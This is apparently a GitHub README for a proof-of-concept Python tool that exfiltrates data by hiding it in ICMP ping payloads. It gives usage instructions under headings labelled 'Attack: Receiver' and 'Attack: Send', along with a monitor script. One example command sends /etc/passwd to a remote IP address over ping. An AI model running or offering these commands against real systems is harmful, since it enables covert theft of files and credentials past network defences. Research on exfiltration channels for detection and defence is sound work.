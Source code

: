 # My-ICMP-Exfiltrator
POC: Python implementation Data Exfiltration using ICMP (Ping Payload)


This uses Python 3.
To install the requirements:
````
pip install -r requirements.txt
`````

## Attack: Receiver
```
python icmp-pong-transfer.py --help
usage: icmp-pong-transfer.py [-h] -w OUTPUT_FILE

options:
  -h, --help            show this help message and exit
  -w OUTPUT_FILE, --write-file OUTPUT_FILE
                        [Required] File to write output.

sudo python icmp-pong-transfer.py -w dump.txt

tail-f dump.txt
```

Example:
```

```

## Attack: Send
```
python icmp-ping-transfer.py --help
usage: icmp-ping-transfer.py [-h] -f READ_FILE -t TARGET

options:
  -h, --help            show this help message and exit
  -f READ_FILE, --read-file READ_FILE
                        [Required] File to send by ping.
  -t TARGET, --target TARGET
                        [Required] Destinaation to send ICMP.

```

Example:
```
sudo python icmp-ping-transfer.py -f /etc/passwd -t 192.168.200.120
```

## Monitor

Example:
````
sudo python icmp-ping-monitor.py
````


